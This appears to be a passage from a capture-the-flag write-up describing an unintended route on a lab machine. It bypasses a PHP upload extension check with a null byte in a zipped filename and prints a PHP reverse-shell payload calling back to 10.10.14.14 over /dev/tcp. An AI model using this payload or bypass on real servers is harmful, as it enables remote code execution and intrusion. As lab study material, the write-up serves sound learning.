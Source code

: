 # Additional
---

## Unintended way to rektsu

### Bypass extension check in zip file with null bytes

`7z` will ignore null bytes but php checkers will not, so `rev.php .pdf` will pass the check

It will be extracted to `/tmp/uploads/<md5sum>/rev.php` and being moved to `/var/www/html/uploads/`

> rev.php0.pdf

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/1111 0>&1'");?>
```

```bash
┌──(bravosec㉿fsociety)-[~/Downloads]
└─$ zip final.zip rev.php0.pdf
  adding: rev.php0.pdf (deflated 11%)
```

Use **imHex** to edit the zip file (Or edit in **burpsuite** repeater from hex view)

![](/assets/obsidian/1d3a567b6fc80c20af4774b35a9a7780.png)

Replace `0` string to **null bytes** (`00` in hex) in the `rev.php0.pdf` at bottom

![](/assets/obsidian/66d4c3fda2f62328e151982c945b2e4d.png)

